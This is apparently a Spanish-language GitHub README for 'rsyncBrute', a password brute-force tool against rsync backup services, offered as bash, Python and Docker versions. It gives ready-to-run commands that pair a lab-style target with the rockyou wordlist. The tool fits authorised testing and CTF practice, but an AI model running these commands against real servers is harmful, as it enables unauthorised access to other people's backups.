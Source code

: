 # rsyncBrute
Este script permite realizar ataques de fuerza bruta a cualquier servicio de copias de seguridad rsync, ¡tanto IPv4 como IPv6!, se puede ejecutar de forma interactiva (introduciendo parametros uno por uno) o de forma no interactiva (ideal para automatizar). Está disponible en bash, python3 y como imagen docker. Se lanza exactamente igual en sus tres versiones:
  - 
https://hub.docker.com/r/santatecla/rsync-brute (148MB)

Mostrar ayuda:
```
./rsync-brute.sh -h
python3 rsync-brute.py -h
docker run -it santatecla/rsync-brute -h
```
Modo interactivo:
```
./rsync-brute.sh -i
python3 rsync-brute.py -i
docker run -it santatecla/rsync-brute -i
```
Modo no interactivo:
```
./rsync-brute.sh -4 bender@10.10.10.111:873/module -w /usr/share/wordlists/rockyou.txt
python3 rsync-brute.py -4 bender@10.10.10.111:873/module -w /usr/share/wordlists/rockyou.txt
docker run -it santatecla/rsync-brute -4 bender@10.10.10.111:873/module -w /usr/share/wordlists/rockyou.txt
```
La imagen docker también contiene el diccionario rockyou en /usr/share/wordlists/rockyou.txt
